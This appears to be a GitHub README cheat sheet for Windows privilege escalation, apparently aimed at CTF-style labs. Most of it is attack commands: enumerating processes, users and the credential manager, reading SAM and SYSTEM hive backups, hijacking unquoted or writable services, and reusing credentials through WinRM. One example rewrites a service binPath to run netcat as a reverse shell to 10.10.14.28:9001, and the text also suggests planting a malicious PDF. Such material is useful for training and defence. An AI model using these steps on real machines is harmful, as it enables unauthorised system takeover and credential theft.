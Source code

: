 # windows-privilege-escalation-cheat-sheet
Updating on a daily base.


Made By J3wker


  ██╗          ██╗██████╗ ██╗    ██╗██╗  ██╗███████╗██████╗      ██╗
 ██╔╝          ██║╚════██╗██║    ██║██║ ██╔╝██╔════╝██╔══██╗     ╚██╗ 
██╔╝█████╗     ██║ █████╔╝██║ █╗ ██║█████╔╝ █████╗  ██████╔╝█████╗╚██╗
╚██╗╚════╝██   ██║ ╚═══██╗██║███╗██║██╔═██╗ ██╔══╝  ██╔══██╗╚════╝██╔╝
 ╚██╗     ╚█████╔╝██████╔╝╚███╔███╔╝██║  ██╗███████╗██║  ██║     ██╔╝ 
  ╚═╝      ╚════╝ ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝     ╚═╝ 



BEFORE STARTING !! if system before 2012 - try juciypotato
use `systeminfo` | google the system and update version - look for CVE's and kernel Exploits.
If nothing found start the check list.


Check List:
_____________________

NOTE: List files you saw when you enumerated the web and looked intersering. 
Example:

`secret.php`
`db.php`
`auth.php`

Read them after getting a basic shell - might have creds in them 
if so `net user` try the creds against users - maybe it matches.

Example:
`runas /user:Administrator cmd.exe`
Check running process 
1. `ps`

```
Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
```

remmber PID of weird process
Write it down and use
2. `netstat -ano`
Check for open ports - google that port - what is it ?

see Users
3. `net user`

see specific username information / groups
4. `net user username` - which group is he in ? Logs reader ? read logs - maybe passwords hidden, maybe automatic script the read logs
inject command!, part of "Remote Management Group" ? maybe use WinRM 

5. check Credentials mananger:

`dir C:\Users\username\AppData\Local\Microsoft\Credentials\`
`dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\`
`cmdkey /list` 
if is has keys try:

Domain could be also Hostname or just use username alone
runas /user:DOMAIN\Username /savecred command

if that doesnt work - try Meterpreter `load incognito`- maybe impersonate to a certain user

6. check `Documents` folder 
7. check `Downloads` folder
8. check `Program Files (x86)` folder
9. check `Program Files` folder
10. check `AppData` folder and etc `Local` - `LocalLow` - `Roaming`

Look for werid files and installed programs - look for exploits in them.

______________________________________________________
11. check services with write access - to change binpath

`accesschk.exe -accepteula -uvwc *`

Example:
1. `sc config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.14.28 9001 -e cmd.exe"`
$ Start a listener on port 9001
2. `sc stop usosvc`
3. `sc start usosvc`
4. get a shell.
______________________________________________________

12. Check for files like .txt / .php - read them.
check for automated scripts that are waiting for scertain files for example:

"Admin is waiting for PDF drop it in C:\Docs" - create a Malicious PDF - drop it

13. Look for backups files `SAM.bak` - `SYSTEM.bak`/ windows image backup.

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

14. What Groups are on the system? 
`net localgroup`

15. Unquoated services ? if so hijack it!

```
wmic service get name,displayname,pathname,startmode 2>nul |findstr /i "Auto" 2>nul |findstr /i /v "C:\Windows\\" 2>nul |findstr /i /v """
```

16. What scheduled tasks are there? Anything custom implemented?

`schtasks /query /fo LIST 2>nul | findstr TaskName`

or in powershell:

`Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State`

17. what is running on startup ?

`wmic startup get caption,command`

18. Permissions on specific folders ?

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
```
NOTE: Change the value of "Everyone" to your desire.
example:

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
```

19. If you have user Creds and WinRM is open try:

NOTE: Change Values `$user`  and `$pw` to match your case.

```
$user = 'SNIPER\Chris'
$pw = '36mEAhz/B8xQ~2VM'
$secpw = ConvertTo-SecureString $pw -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
```

Possible to convert into one-liner:

```
$user = 'SNIPER\Chris';$pw = '36mEAhz/B8xQ~2VM';$secpw = ConvertTo-SecureString $pw -AsPlainText -Force;$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
```


and then:

```
Invoke-Command -Computer localhost -Credential $cred -ScriptBlock {command}
```

Get command at the user you prompted 








